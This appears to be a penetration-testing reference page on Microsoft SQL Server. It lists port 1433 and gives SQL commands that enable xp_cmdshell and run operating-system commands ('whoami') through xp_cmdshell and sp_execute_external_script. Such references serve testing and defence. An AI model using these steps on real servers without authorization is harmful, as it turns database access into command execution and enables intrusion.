 # MSSQL

<details>

<summary>Introduction</summary>

MSSQL（Microsoft SQL Server）是由微软开发的关系型数据库管理系统，专为处理大规模数据和支持企业级应用而设计。它提供了强大的数据管理、分析和安全功能，包括事务处理、数据复制、灾难恢复和数据加密等。MSSQL 被广泛用于企业级应用程序、网站、数据仓库和商业智能等领域。

</details>

<table><thead><tr><th width="178">Name</th><th>MSSQL (Microsoft SQL Server)</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>1433</td></tr><tr><td><strong>RCE</strong></td><td>Feasible</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access</li><li>Remote Command Execution</li></ul></td></tr></tbody></table>

## Unauthorized Access

If the MSSQL service allows unauthorized access, you can use the [Navicate Premium](https://www.navicat.com/en/products/navicat-premium) to connect.

## Remote Command Execution

```bash
# Check the status of xp_cmdshell (0 closed / 1 open).
EXEC sp_configure 'xp_cmdshell';

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# Disable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;

# Use xp_cmdshell to execute the whoami command
EXEC xp_cmdshell 'whoami';
EXEC dbName..xp_cmdshell 'whoami';

# Use sp_execute_external_script to call an external Python script to execute the whoami command
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```
